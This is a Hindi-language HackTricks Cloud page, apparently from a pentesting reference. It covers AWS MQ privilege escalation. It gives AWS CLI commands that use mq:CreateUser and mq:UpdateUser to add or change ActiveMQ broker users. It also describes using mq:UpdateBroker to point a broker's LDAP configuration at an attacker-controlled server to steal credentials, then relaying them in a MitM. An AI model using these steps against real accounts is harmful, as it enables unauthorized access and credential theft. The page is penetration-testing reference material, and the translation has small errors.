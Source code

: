 # AWS - MQ विशेषाधिकार प्रदर्शन

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>

## MQ

MQ के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

इन अनुमतियों के साथ आप **एक नए उपयोगकर्ता को ActimeMQ ब्रोकर में बना सकते हैं** (यह RabbitMQ में काम नहीं करता):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**संभावित प्रभाव:** ActiveMQ के माध्यम से संवेदनशील जानकारी तक पहुंच

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

इन अनुमतियों के साथ आप **ActimeMQ ब्रोकर में एक नया उपयोगकर्ता बना सकते हैं** (यह RabbitMQ में काम नहीं करता है): 

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**संभावित प्रभाव:** ActiveMQ के माध्यम से संचार करते समय संवेदनशील जानकारी तक पहुंच

### `mq:ListBrokers`, `mq:UpdateBroker`

यदि एक ब्रोकर **ActiveMQ** के साथ **LDAP** का उपयोग अधिकृतता के लिए कर रहा है। तो यह संभव है कि हम **हमलावर द्वारा नियंत्रित एक LDAP सर्वर के विन्यास** को **बदल सकते हैं**। इस तरीके से हमलावर सभी क्रेडेंशियल्स को चुरा सकेगा जो LDAP के माध्यम से भेजे जा रहे हैं।
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
यदि आप किसी भी तरीके से ActiveMQ द्वारा उपयोग की गई मूल प्रमाणीकरण को खोज सकें, तो आप MitM कार्रवाई कर सकते हैं, प्रमाणीकरण को चुरा सकते हैं, मूल सर्वर में उपयोग कर सकते हैं, और प्रतिक्रिया भेज सकते हैं (शायद चोरी की गई प्रमाणीकरण का पुनः उपयोग करके आप ऐसा कर सकते हैं).

**पोटेंशियल प्रभाव:** ActiveMQ प्रमाणीकरण चोरी करें

